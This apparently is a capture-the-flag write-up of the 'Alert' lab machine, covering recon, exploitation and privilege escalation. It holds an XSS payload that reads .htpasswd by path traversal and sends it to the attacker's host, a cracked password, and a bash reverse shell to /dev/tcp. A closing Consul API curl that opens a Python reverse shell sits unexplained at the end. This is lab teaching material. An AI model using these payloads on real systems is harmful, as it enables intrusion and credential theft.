Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.11.44
```



Let's go to the site



Let's try to find subdomains
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://FUZZ.alert.htb -t 50
```



Subdomain `statistics` found. Let's go to it



You need a login and password. If there is such authorization, then most likely there is a file `.htpasswd`, which can be located in the site directory `statistics.alert.htb`.

>[!info] Note
>**`.htpasswd`** is a special file used by the **Apache** web server (and some other servers) to **store logins and passwords** as part of basic HTTP authentication.

Let's try to find hidden directories
```bash
gobuster dir -u http://alert.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



A scan in Burp Suite showed that there is a vulnerability in executing `JavaScript` code via the `file` parameter in the URL. `visualiser.php` uses the `link_share` parameter and the `file` parameter does not work. This means that it will most likely work in `messages`.



Let's create an `exploit.md` file, insert the exploit into it and send it to the site
```JavaScript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../var/www/statistics.alert.htb/.htpasswd").then(response => response.text()).then(data => {
fetch("http://<tun0 IP>:<port>/?file_content=" + encodeURIComponent(data));
});
</script>
```
Start listening on the port specified in the exploit. Next, on the site, go to the page `Contact us` and send the link to the exploit that the site generated when viewing the downloaded exploit. 


After all that we have done, we see an encrypted URL in the response



```Request
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A
```
In Burp Suite, we decode it



```Credentials
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```
We got MD5 hash



Crack this hash
```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash
```



Get the password of user `albert`
```Password
manchesterunited
```
Connect to it via SSH



First flag found
```flag
bf3bdade9513beb2eb410c28e3654544
```
See if there are any locally running services
```bash
netstat -lntp
```



There is a service on port `8080`. Let's forward this port to our machine
```bash
ssh -L 8081:127.0.0.1:8080 albert@10.10.11.44
```






Let's see if there is anything interesting in `/opt`



There is a script `shell.php`, which contains the following code:
```php
<?php

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.74/4444 0>&1'");

?>
```



Let's change the IP address to our own, start listening on port `4444` and follow the link `http://127.0.0.1:8081/config/shell.php`
```bash
sudo nc -lvnp 4444
```



```flag
294cea2ab9d083315cc0d0127f60ad16
```
```
curl -X PUT -d '{
    "ID": "rc",
    "Name": "Remote code execution",
    "Shell": "/bin/bash",
    "Interval": "5s",
    "Args": [
        "python3",
        "-c",
        "import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\"10.10.14.180\", 4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p=subprocess.Popen([\"/bin/sh\", \"-i\"])"
    ]
}' http://localhost:8500/v1/agent/check/register
```
